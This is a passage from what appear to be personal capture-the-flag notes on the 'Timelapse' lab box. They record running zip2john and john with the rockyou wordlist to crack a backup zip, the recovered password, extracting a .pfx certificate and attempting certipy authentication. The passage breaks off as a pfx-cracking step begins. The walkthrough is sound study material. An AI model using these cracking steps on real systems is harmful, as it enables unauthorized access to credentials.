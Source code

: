 	```bash
md5sum LAPS.x64.msi 

---OUTPUT---
2f80ef0699d15d788caf897a9b3ceb05  LAPS.x64.msi
```
	- We can then check in virustotal and it says it's a file distributed by Microsoft. So it probably won't have anything related to our box as its a generic file in our context.
		- https://www.virustotal.com/gui/file/e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
		- ![[Pasted image 20250421123440.png]]
- Tried ldapsearch as anonymous but it requires authentication
- We try to crack the zip with john:
	```bash
zip2john winrm_backup.zip
vi winrm.hash     # Copy hash output from last command here
john winrm.hash --wordlist=/usr/share/wordlists/rockyou.txt

---OUTPUT---
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
```
- Unzipped the file and found a pfx file 
	```bash
unzip winrm_backup.zip 

---OUTPUT---
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx
```
- I then tried certipy auth command to see if it would work (FAILED):
	```bash
certipy auth -pfx legacyy_dev_auth.pfx -domain 'timelapse.htb'
certipy auth -pfx legacyy_dev_auth.pfx -domain 'dc01.timelapse.htb'

---OUTPUT-FAILED---
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[-] Got error: Invalid password or PKCS12 data
[-] Use -debug to print a stacktrace
```
- I then read the file (with strings as cat won't give readable text):
	```bash
strings legacyy_dev_auth.pfx

---RELEVANT-OUTPUT---
...
...
Legacyy0
r"*J0:
cZK3
".G,
x0v0
legacyy@timelapse.htb0
...
...
```
	- Username may be legacyy rather than legacyy_dev
- Try to open the pfx file:
	```bash
openssl pkcs12 -in legacyy_dev_auth.pfx

> Enter password:
```
- I then try to crack the pfx file with john (takes some time to crack)
	```bash